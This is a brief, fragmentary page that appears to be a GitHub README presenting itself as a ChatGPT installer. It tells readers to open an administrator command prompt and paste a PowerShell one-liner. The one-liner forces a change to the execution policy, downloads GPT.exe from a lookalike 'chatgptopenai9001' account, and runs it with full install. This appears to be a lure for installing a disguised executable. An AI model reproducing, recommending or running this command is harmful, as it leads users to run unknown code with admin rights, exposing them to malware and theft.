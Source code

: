 DOWNLOAD AND RUN CMD ADMINISTRATOR
GPT.exe -fullinstall

powershell 
examp

Set-ExecutionPolicy RemoteSigned -Force;$Url = 'https://github.com/chatgptopenai9001/Chat/raw/main/GPT.exe';[Net.ServicePointManager]::SecurityProtocol = "tls12, tls11, tls";$ProgressPreference = 'SilentlyContinue';;Invoke-WebRequest $Url -OutFile GPT.exe;.\GPT.exe -fullinstall;
